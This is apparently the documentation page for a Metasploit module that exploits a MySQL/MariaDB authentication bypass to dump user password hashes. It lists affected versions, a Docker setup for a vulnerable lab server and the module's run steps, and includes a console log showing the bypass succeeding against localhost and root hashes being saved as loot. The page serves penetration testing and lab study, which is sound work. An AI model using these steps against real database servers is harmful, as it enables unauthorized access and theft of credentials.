 ## Description

This module exploits a password bypass vulnerability in MySQL in order
to extract the usernames and encrypted password hashes from a MySQL server.
These hashes are stored as loot for later cracking.

Impacts MySQL versions:
- 5.1.x before 5.1.63
- 5.5.x before 5.5.24
- 5.6.x before 5.6.6

And MariaDB versions:
- 5.1.x before 5.1.62
- 5.2.x before 5.2.12
- 5.3.x before 5.3.6
- 5.5.x before 5.5.23

## Environment Setup

### Docker

```
docker run -it --rm -p 3306:3306 vulhub/mysql:5.5.23
```

## Verification Steps

1. Do: `use scanner/mysql/mysql_authbypass_hashdump`
2. Do: `set RHOSTS [IP]`
3. Do: `run`

## Scenarios

```msf
msf6 auxiliary(scanner/mysql/mysql_authbypass_hashdump) > rerun rhost=127.0.0.1
[*] Reloading module...

[+] 127.0.0.1:3306        - 127.0.0.1:3306 The server allows logins, proceeding with bypass test
[*] 127.0.0.1:3306        - 127.0.0.1:3306 Authentication bypass is 10% complete
[+] 127.0.0.1:3306        - 127.0.0.1:3306 Successfully bypassed authentication after 130 attempts. URI: mysql://root:Gmg@127.0.0.1:3306
[+] 127.0.0.1:3306        - 127.0.0.1:3306 Successfully exploited the authentication bypass flaw, dumping hashes...
[+] 127.0.0.1:3306        - 127.0.0.1:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 127.0.0.1:3306        - 127.0.0.1:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 127.0.0.1:3306        - 127.0.0.1:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 127.0.0.1:3306        - 127.0.0.1:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 127.0.0.1:3306        - 127.0.0.1:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 127.0.0.1:3306        - 127.0.0.1:3306 Hash Table has been saved: /Users/adfoster/.msf4/loot/20230817230919_default_127.0.0.1_mysql.hashes_036424.txt
[*] 127.0.0.1:3306        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
